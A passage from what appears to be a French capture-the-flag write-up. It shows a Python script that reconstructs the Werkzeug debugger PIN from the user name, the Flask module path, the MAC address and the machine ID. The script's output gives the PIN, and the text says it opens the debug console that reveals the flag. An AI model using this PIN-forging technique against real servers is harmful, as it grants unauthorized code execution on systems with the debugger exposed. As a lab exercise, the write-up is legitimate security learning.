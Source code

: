 ```python
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]
    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num
    return rv

probably_public_bits = ['root', 'flask.app', 'Flask', '/usr/local/lib/python3.10/site-packages/flask/app.py']
print(probably_public_bits)
private_bits = [str(uuid.getnode()), get_machine_id()]
print(private_bits)
pin_code = compute_pin_code(probably_public_bits, private_bits)
print(pin_code)
```

On obtient alors:
```
['root', 'flask.app', 'Flask', '/usr/local/lib/python3.10/site-packages/flask/app.py']
['2485377892358', b'e0d5b3b6-0260-43a2-a9d6-8b08f513689212dc5e96a37fd3ec11544ebf61074579537fba3a87c538da942c6eda3eba66c9']
117-271-285
```

En utilisant ce pin code depuis la console on obtient le flag.

![](/images/writeups/hsr2022/web/werkzeug-fuzzing/step3-1.png)
